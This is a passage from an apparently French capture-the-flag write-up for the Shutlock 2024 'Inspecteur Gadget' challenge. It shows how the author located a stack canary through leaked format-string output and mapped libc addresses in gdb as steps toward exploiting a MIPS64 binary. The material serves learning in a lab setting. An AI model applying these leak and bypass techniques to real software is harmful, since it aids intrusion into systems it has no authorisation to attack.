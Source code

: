 Afin de trouver le canary, on fait une recherche ``00'`` ce qui revient à chercher les adresses où les deux derniers bits sont des 00.
On se retrouve avec 8 résultats. Or, d'après la recherche de la stack précédente, on sait que la valeur après le canary est 0x1.
La canary se trouve donc à l'offset 19 !

````txt
16: b'0x7024363125'
17: b'0x555555d977b8'
18: b'0x555555fc97c0'
19: b'0x36aec44627470300'
20: b'0x1'
21: b'0x7f4a1b8564a0'
22: b'0x555555d55d10'
23: b'0x7fdc208f5e34'
````

### Trouver un leak de la libc

Afin de trouver les addresses de la libc, on utilise gdb pour regarder les adresses correspondantes.

````shell
gdb-peda$ info proc map
process 3680
Mapped address spaces:

          Start Addr           End Addr       Size     Offset  Perms  objfile
      0x555555556000     0x555555557000     0x1000        0x0  ---p
      0x555555557000     0x555555d56000   0x7ff000        0x0  rwxp   [stack]
      0x555555d56000     0x555555d57000     0x1000        0x0  rw-p
      0x555555d57000     0x555555d84000    0x2d000        0x0  r-xp   /usr/mips64el-linux-gnuabi64/lib64/ld.so.1
      0x555555d84000     0x555555d96000    0x12000        0x0  ---p
      0x555555d96000     0x555555d97000     0x1000    0x2f000  r--p   /usr/mips64el-linux-gnuabi64/lib64/ld.so.1
      0x555555d97000     0x555555d99000     0x2000    0x30000  rw-p   /usr/mips64el-linux-gnuabi64/lib64/ld.so.1
      0x555555d99000     0x555555d9a000     0x1000        0x0  r-xp
      0x555555d9a000     0x555555d9c000     0x2000        0x0  rw-p
      0x555555dc0000     0x555555faa000   0x1ea000        0x0  r-xp   /usr/mips64el-linux-gnuabi64/lib/libc.so.6
      0x555555faa000     0x555555fba000    0x10000   0x1ea000  ---p   /usr/mips64el-linux-gnuabi64/lib/libc.so.6
      0x555555fba000     0x555555fc0000     0x6000   0x1ea000  r--p   /usr/mips64el-linux-gnuabi64/lib/libc.so.6
      0x555555fc0000     0x555555fc5000     0x5000   0x1f0000  rw-p   /usr/mips64el-linux-gnuabi64/lib/libc.so.6
      0x555555fc5000     0x555555fd2000     0xd000        0x0  rw-p
      0x555555fdd000     0x555555fdf000     0x2000        0x0  rw-p
      0x7f5e6e6b5000     0x7f5e6e6b8000     0x3000        0x0  r-xp   /CTF/Shutlock-2024/Inspecteur_Gadget/vuln
      0x7f5e6e6b8000     0x7f5e6e6c7000     0xf000        0x0  ---p
      0x7f5e6e6c7000     0x7f5e6e6c8000     0x1000     0x2000  rw-p   /CTF/Shutlock-2024/Inspecteur_Gadget/vuln
````
